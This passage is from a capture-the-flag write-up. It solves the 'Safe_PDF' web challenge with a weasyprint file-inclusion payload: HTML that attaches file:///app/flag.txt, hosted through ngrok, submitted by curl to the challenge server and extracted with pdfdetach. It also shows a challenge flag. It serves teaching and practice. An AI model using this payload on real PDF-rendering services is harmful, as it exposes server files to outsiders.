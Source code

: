 >Flag: `SIBER25{s3lf_1nv17ed_gu35s_wh47?}`
{: .prompt-tip}

## Challenge 12: Safe_PDF (Web)

*Solved by: Jerit3787*

**Description:**

Need a PDF version of your favourite web page? This handy tool does just that - simply enter a URL, and we’ll generate a PDF snapshot for you. Quick, clean and convenient.

Flag format: SIBER25{flag}

Challenge Creator: @hanming0510

**Solution:**

For this one, I just solved similar to this. It uses a vulnerability I think that causes Local File Inclusion (LFI) that is when user’s input is not santised properly. Any html tags gets parsed by weasyprint (a popular html to pdf tool). 

Thus, by crafting a HTML that causes weasyprint to include the file inside the PDF, we can control what items gets to enter the PDF.

Create an html that attaches local file (flag)

```html
<!doctype html>
<html>
 <head>
   <title>x</title>
   <link rel="attachment" href="file:///app/flag.txt" />
 </head>
 <body>hi</body>
</html>
```

The twist here is that we can only supply URL to the server. Thus, hosting or just proxy our local server to be accessible to the server is enough here. 

Host on anywhere for the server to fetch (i used ngrok)

```bash
Python -m http.server 8080 && ngrok http 8080
```

Then, Send the link to the server to fetch and download the resulting pdf

```bash
curl -X POST -d "url=https://a0e6375f976e.ngrok-free.app/test.html" "http://5.223.49.127:27002/" -o flag_result.pdf
```

With the file, Extract flag from the pdf

```bash
pdfdetach –saveall flag_result.pdf
```
